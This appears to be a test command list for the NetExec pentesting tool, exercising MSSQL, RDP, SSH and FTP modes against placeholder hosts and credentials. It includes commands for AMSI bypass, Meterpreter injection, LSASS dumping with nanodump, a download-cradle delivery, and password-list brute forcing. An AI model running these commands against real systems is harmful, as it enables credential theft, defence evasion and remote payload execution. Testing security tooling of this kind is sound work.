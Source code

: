 netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --obfs --no-encode
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --obfs --amsi-bypass AMSI_BYPASS_FILE --no-encode
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --obfs --amsi-bypass AMSI_BYPASS_FILE --no-encode
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --clear-obfscripts # current we don't really use?
##### MSSQL Modules
# netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD -M empire_exec
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -L
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M met_inject -o SRVHOST=127.0.0.1 SRVPORT=4443 RAND=12345
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M mssql_priv
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M nanodump
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M test_connection -o HOST=localhost
netexec mssql TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M web_delivery -o URL=localhost/dl_cradle
##### RDP
netexec rdp TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS # need an extra space after this command due to regex
netexec {DNS} rdp TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS
netexec rdp TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --nla-screenshot
##### SSH - Default test passwords and random key; switch these out if you want correct authentication
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD
netexec ssh TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE --no-bruteforce
netexec ssh TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE --no-bruteforce --continue-on-success
netexec ssh TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --key-file tests/data/test_key.priv
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p '' --key-file tests/data/test_key.priv
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --sudo-check
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --sudo-check --sudo-check-method sudo-stdin
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --sudo-check --sudo-check-method sudo-stdin --get-output-tries 10
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --sudo-check --sudo-check-method mkfifo
netexec ssh TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --sudo-check --sudo-check-method mkfifo --get-output-tries 10
##### FTP- Default test passwords and random key; switch these out if you want correct authentication
netexec ftp TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD
netexec ftp TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --ls
netexec ftp TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --put tests/data/test_file.txt test_file.txt
netexec ftp TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD --get test_file.txt
netexec ftp TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE --no-bruteforce
netexec ftp TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE --no-bruteforce --continue-on-success
netexec ftp TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE
